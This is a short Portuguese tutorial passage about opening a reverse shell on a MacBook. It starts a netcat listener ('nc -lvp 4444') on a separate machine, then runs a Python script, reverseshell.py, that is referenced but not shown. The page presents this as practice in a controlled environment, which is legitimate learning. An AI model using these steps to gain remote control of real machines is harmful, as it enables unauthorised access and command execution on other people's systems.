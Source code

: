 Inicie o servidor de escuta em seu ambiente controlado em outra máquina ou em uma VM. Por exemplo, você pode usar o netcat (nc) para ouvir a porta 4444:

 # nc -lvp 4444

Execute o arquivo de script no seu Macbook digitando o seguinte comando no terminal:

 # python reverseshell.py
 
Após a execução do arquivo de script, você deve ver uma conexão estabelecida no servidor de escuta. Agora você pode enviar comandos do servidor para o seu Macbook e obter a saída dos comandos executados no seu terminal.
